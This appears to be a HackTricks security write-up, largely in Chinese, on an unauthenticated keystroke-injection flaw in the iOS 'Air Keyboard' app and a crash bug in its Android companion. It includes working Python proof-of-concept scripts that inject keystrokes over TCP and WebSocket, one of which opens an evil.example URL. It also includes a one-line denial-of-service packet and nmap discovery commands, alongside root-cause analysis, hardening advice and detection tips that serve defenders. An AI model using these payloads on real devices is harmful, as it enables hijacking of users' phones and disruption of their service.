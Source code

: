# Air Keyboard Remote Input Injection (Unauthenticated TCP / WebSocket Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

iOS 版本的商业 **“Air Keyboard”** 应用程序 (App Store ID 6463187929) 暴露了一个本地网络服务，该服务 **接受无任何身份验证或来源验证的按键帧**。根据安装的版本，该服务为：

* **≤ 1.0.4**  – 原始 TCP 监听器在 **port 8888** 上，期待一个 2 字节长度的头部，后跟 *device-id* 和 ASCII 有效负载。
* **≥ 1.0.5 (2025年6月)**  – **WebSocket** 监听器在 *同一* 端口 (**8888**) 上，解析 **JSON** 键，例如 `{"type":1,"text":"…"}`。

因此，任何在同一 Wi-Fi / 子网中的设备都可以 **向受害者的手机注入任意键盘输入，实现完全的远程交互劫持**。
一个配套的 Android 版本在 **port 55535** 上监听。它执行一个弱 AES-ECB 握手，但构造的垃圾数据仍会导致 **OpenSSL 内部未处理的异常**，崩溃后台服务 (**DoS**)。

> 该漏洞在撰写时 **仍未修补（2025年7月）**，该应用程序仍可在 App Store 中获取。

---

## 1. Service Discovery

扫描本地网络，寻找应用程序使用的两个固定端口：
```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
在Android手机上，您可以在本地识别负责的包：
```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```
在**越狱的 iOS**上，你可以使用 `lsof -i -nP | grep LISTEN | grep 8888` 做类似的事情。

---

## 2. 协议细节 (iOS)

### 2.1  旧版 (≤ 1.0.4) – 自定义二进制帧
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
声明的 *length* 包括 `device_id` 字节 **但不包括** 两字节的头部本身。

### 2.2  当前版本 (≥ 1.0.5) – JSON over WebSocket

版本 1.0.5 在保持端口号不变的情况下默默迁移到 WebSockets。一个最小的按键看起来像是：
```json
{
"type": 1,              // 1 = insert text, 2 = special key
"text": "open -a Calculator\n",
"mode": 0,
"shiftKey": false,
"selectionStart": 0,
"selectionEnd": 0
}
```
不需要握手、令牌或签名 - 第一个 JSON 对象已经触发了 UI 事件。

---

## 3. 利用 PoC

### 3.1  针对 ≤ 1.0.4 (原始 TCP)
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("[+] Injected", keystrokes)
```
### 3.2  目标 ≥ 1.0.5 (WebSocket)
```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client`

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
"type": 1,
"text": "https://evil.example\n",
"mode": 0,
"shiftKey": False,
"selectionStart": 0,
"selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```
*任何可打印的 ASCII 字符 — 包括换行符、制表符和大多数特殊键 — 都可以被发送，从而赋予攻击者与物理用户输入相同的能力：启动应用程序、发送即时消息、打开恶意 URL、切换设置等。*

---

## 4. Android Companion – Denial-of-Service

Android 端口 (55535) 期望一个 **用硬编码的 AES-128-ECB 密钥加密的 4 字符密码**，后面跟着一个随机的 nonce。解析错误会冒泡到 `AES_decrypt()`，并未被捕获，导致监听线程终止。因此，一个单一的格式错误的数据包就足以使合法用户断开连接，直到进程重新启动。
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
---

## 5. 相关应用 – 重复出现的反模式

Air Keyboard **并不是一个孤立的案例**。其他移动“远程键盘/鼠标”工具也存在同样的缺陷：

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78  允许未经身份验证的命令执行和明文键盘记录。
* **PC Keyboard ≤ 30** – CVE-2022-45479/80  未经身份验证的 RCE 和流量嗅探。
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83  默认无密码、弱 PIN 暴力破解和明文泄露。

这些案例突显了对 **移动应用网络攻击面** 的系统性忽视。

---

## 6. 根本原因

1. **对传入帧没有来源/完整性检查**（iOS）。
2. **密码学误用**（静态密钥、ECB、缺少长度验证）和 **缺乏异常处理**（Android）。
3. **用户授予的本地网络权限 ≠ 安全** – iOS 请求运行时同意 LAN 流量，但这并不能替代适当的身份验证。

---

## 7. 加固与防御措施

开发者建议：

* 将监听器绑定到 **`127.0.0.1`**，并在需要远程控制时通过 **mTLS** 或 **Noise XX** 隧道。
* 在入职时 **派生每个设备的秘密**（例如，二维码或配对 PIN），并在处理输入之前强制 *双向* 身份验证。
* 采用 **Apple Network Framework**，使用 *NWListener* + TLS，而不是原始套接字。
* 在解密或解码帧时实现 **长度前缀的合理性检查** 和结构化异常处理。

蓝队/红队快速胜利：

* **网络侦查：** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` 或 Wireshark 过滤器 `tcp.port == 8888`。
* **运行时检查：** Frida 脚本钩住 `socket()`/`NWConnection` 列出意外的监听器。
* **iOS 应用隐私报告（设置 ▸ 隐私与安全 ▸ 应用隐私报告）** 突出显示与 LAN 地址联系的应用 – 有助于发现恶意服务。
* **移动 EDR** 可以为端口 8888 上明文 TCP 有效载荷中的 JSON 键 `"selectionStart"`、`"selectionEnd"` 添加简单的 Yara-L 规则。

---

## 检测备忘单（渗透测试者）
```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
| awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```
---

## 参考文献

- [Exploit-DB 52333 – Air Keyboard iOS App 1.0.5 远程输入注入](https://www.exploit-db.com/exploits/52333)
- [Mobile-Hacker Blog (2025年7月17日) – Air Keyboard iOS App中的远程输入注入漏洞仍未修补](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)

{{#include ../../banners/hacktricks-training.md}}
